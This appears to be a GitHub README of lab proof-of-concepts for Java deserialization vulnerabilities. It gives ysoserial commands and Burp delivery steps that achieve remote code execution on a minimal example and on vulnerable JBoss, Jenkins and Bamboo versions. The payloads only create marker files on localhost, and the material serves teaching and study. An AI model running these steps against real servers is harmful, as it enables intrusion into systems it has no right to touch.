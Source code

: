 Here there are practical examples of the - deserialization of untrusted data - vulnerability.

These pocs use the [ysoserial](https://github.com/frohoff/ysoserial/) tool to generate exploits.

# Pocs

Minimal Example
---------------------------------
- Use java 8
```
cd MinimalExample
java -jar ../ysoserial-master-v0.0.5-gb617b7b-16.jar CommonsCollections6 "/tmp/exploit.sh">payload.ser 
cp ./exploit.sh /tmp
chmod +x /tmp/exploit.sh
javac Employee.java
javac DeSerializingObject.java
java -classpath .:apache-collections-commons-collections-3.1.jar DeSerializingObject 
```
- You will find a file "pwned" in /tmp. This means that the attack has been completed correctly with a RCE.

JBOSS (CVE-2016-7065)
---------------------------------


- Download a vulnerable version of Jboss (in this case you can find the v5.1.0) 
- Check if you have installed the JDK 1.8
- Run jboss: ```java -jar ./JBoss/jboss-5.1.0.GA/bin/run.jar```
- Download and open Burp: setup your proxy on localhost:9090
- In your browser start proxy on localhost:9090
- Generate the payload with ysoserial: ```java -jar ysoserial.jar CommonsCollections5 "touch /tmp/JbossVulnerable.txt" > JbossPayload.ser``` or use the payload inside the folder JBoss
- Open localhost:8080/invoker/JMXInvokerServlet
- In Burp "paste from file" and choose JbossPayload.ser
- Checkout in /tmp folder the execution of "touch /tmp/JbossVulnerable.txt"



Jenkins (CVE-2015-8103)
---------------------------------

- Download a vulnerable version of Jenkins (in this case you can find the v1.649)
- Check if you have installed the JDK 1.8
```
java -jar ./jenkins-war-1.649.war
java -cp ysoserial-master-v0.0.5-gb617b7b-16.jar ysoserial.exploit.JenkinsListener http://localhost:8080 CommonsCollections5 "touch /tmp/JenkinsVulnerable.txt"
```


Bamboo (CVE-2015-6576)
---------------------------------

- Download and install openjdk 1.7 
- Download and install vulnerable version of Bamboo (v5.4.3 in this case) 
- Create folder /home/user/bamboohome/
- Add/update the property /Bamboo/atlassian-bamboo-5.4.3/atlassian-bamboo/WEB-INF/classes/bamboo-init.properties with
	bamboo.home=/home/user/bamboohome
- Get fingerprint -> localhost:8085/agentServer/GetFingerprint.action?agentType=elastic
- Generate payload with ysoserial
- Open localhost:8085/agentServer/message?fingerprint<copied fingerprint> and "copy from file" in burp
```java -jar ysoserial.jar CommonsCollections4 "touch /tmp/BambooVulnerable.txt" > BambooPayload.ser ```
  or use the payload inside the folder JBoss


# Ysoserial stacktraces

Find them in the /Ysoserial-stacktraces directory

# References and readings
https://github.com/EdoardoVignati/ysoserial/blob/master/biblio.bib

Other references:

- https://www.edoardovignati.it/how-to-install-old-versions-of-java-jdk/

- https://www.slideshare.net/codewhitesec/exploiting-deserialization-vulnerabilities-in-java-54707478

- https://askubuntu.com/questions/761127/how-do-i-install-openjdk-7-on-ubuntu-16-04-or-higher


# Defenses
- https://link.springer.com/chapter/10.1007/978-3-030-00470-5_21


